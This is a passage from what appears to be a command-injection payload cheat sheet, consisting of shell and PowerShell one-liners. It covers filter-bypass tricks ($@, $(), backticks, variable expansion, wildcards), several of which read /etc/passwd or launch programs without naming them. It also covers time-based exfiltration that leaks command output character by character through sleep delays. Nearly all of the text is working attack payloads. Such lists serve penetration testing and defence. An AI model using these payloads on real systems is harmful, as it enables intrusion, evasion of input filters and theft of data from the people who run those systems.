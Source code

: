 ### Bypass With $@

`$0`: Refers to the name of the script if it's being run as a script. If you're in an interactive shell session, `$0` will typically give the name of the shell.

```powershell
who$@ami
echo whoami|$0
```

### Bypass With $()

```powershell
who$()ami
who$(echo am)i
who`echo am`i
```

### Bypass With Variable Expansion

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

### Bypass With Wildcards

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

## Data Exfiltration

### Time Based Data Exfiltration

Extracting data char by char and detect the correct value based on the delay.

* Correct value: wait 5 seconds

  ```powershell
  swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
  real    0m5.007s
  user    0m0.000s
  sys 0m0.000s
  ```

* Incorrect value: no delay

  ```powershell
  swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
  real    0m0.002s
  user    0m0.000s
  sys 0m0.000s
  ```
